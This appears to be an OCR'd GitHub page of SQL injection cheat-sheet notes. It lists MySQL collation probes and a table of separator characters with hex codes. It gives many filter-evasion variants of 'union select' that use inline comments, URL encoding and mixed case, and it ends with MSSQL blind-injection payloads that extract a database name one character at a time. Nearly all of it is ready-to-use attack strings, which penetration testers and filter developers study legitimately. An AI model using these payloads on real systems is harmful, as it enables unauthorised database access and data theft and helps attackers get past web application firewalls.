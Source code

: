 ````
monthname(from_days(690))                                              
monthname(from_unixtime(1))
                                          
collation(convert((1)using/**/koi8r))

(select(collation_name)from(information_schema.collations)where(id)=1 
(select(collation_name)from(information_schema.collations)where(id)=23 
(select(collation_name)from(information_schema.collations)where(id)=36 
(select(collation_name)from(information_schema.collations)where(id)=48 
(select(collation_name)from(information_schema.collations)where(id)=50 
------forever----
````
#### Adding Gaps between requests
````
testtest        nospace    0x1a
test*test       *              0x2a
test:test       :                0x3a
test::test      ::                0x3a3a
testJtest       J               0x4a
testZtest      Z              0x5a
testjtest        j               0x6a
testztest       z               0x7a
testtest        nospace     0x8a
testtest        nospace     0x9a
test test       SPACE     0x10a
Web Filter Bypass 'union select' keyword strigns
union select           
!UNiOn*/ /*!SeLEct*/
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
/*--*/union/*--*/select/*--*/
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
/**/uNIon/**/sEleCt/**/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0D%0ASeleCt%0D%0A 
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A 
````
## MsSql blind exploitation
- For numeric contexts (look for differences):
````
and 1=1
and 1=2
````
- Once we found the injection, we can leak data from the DB by guessing one character at a time as follows:
````
AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)=109
````
- If it is true, we know the db_name starts with 109(m).